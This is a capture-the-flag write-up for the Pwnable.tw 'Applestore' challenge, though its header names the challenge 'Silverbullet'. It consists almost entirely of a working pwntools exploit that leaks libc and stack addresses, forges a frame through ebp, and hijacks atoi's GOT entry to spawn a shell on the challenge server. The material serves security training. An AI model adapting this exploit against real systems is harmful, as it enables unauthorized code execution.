# Pwnable.tw - Applestore

* Website : Pwnable.tw
* Challenge : Silverbullet
* Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x00
1. Iphone8 is lay on the stack and it can be overwrite.
2. An useful tip: modify **ebp** to get a fake function frame.

## 0x01
Exploit:
```python
from pwn import *

#r = process(['/glibc/2.23/32/lib/ld-2.23.so','./applestore'], env={'LD_PRELOAD':'./libc_32.so.6'})
#r = process('./applestore')
r = remote('chall.pwnable.tw', 10104)
got = p32(0x804b010)
atoi_got = p32(0x804b062)

def get_iphone_8():
    for i in range(20):
        r.recvuntil('>')
        r.send('2')
        r.recvuntil('>')
        r.send('2')
    for i in range(6):
        r.recvuntil('>')
        r.send('2')
        r.recvuntil('>')
        r.send('1')

def leak_libc():
    r.recvuntil('>')
    r.send('5')
    r.recvuntil('>')
    r.send('y')
    r.recvuntil('>')
    r.send('4')
    r.recvuntil('>')
    r.send('y\x00'+got+'\x30'*4+'\x00'*4+'\x00'*4)
    r.recvuntil('27: ')
    leak_got = r.recv()[:4]
    return(int(u32(leak_got)))

def leak_env(env):
    r.send('4')
    r.recvuntil('>')
    r.send('y\x00'+env+'\x30'*4+'\x00'*4+'\x00'*4)
    r.recvuntil('27: ')
    leak = r.recv()[:4]
    return(int(u32(leak)))

def got_hijacking(ebp, system, bin_sh):
    r.send('3')
    r.recvuntil('>')
    r.send('27'+'\x00'*8+ebp+atoi_got)
    r.recvuntil('>')
    r.send(system+';sh\x00')

def main():
    get_iphone_8()
    libc = leak_libc()
    libc_base_offset = 0x49020
    libc_base = libc - libc_base_offset
    system_offset = 0x3a940
    env_offset = 0x1b1dbc
    libc_system = libc_base + system_offset
    libc_env = libc_base + env_offset
    env_leak = leak_env(p32(libc_env))
    print('libc_base: '+hex(libc_base))
    print('libc_system: '+hex(libc_system))
    print('libc_env: '+hex(libc_env))
    print('env_leak: '+hex(env_leak))
    ebp_offset = 0x104
    ebp = env_leak - ebp_offset
    print('ebp: '+hex(ebp))
    bin_sh = p32(0x69622f3b) + p32(0x68732f6e) + '\x00'
    got_hijacking(p32(ebp-12), p32(libc_system), bin_sh)
    r.interactive()

if __name__ == '__main__':
    main()

```
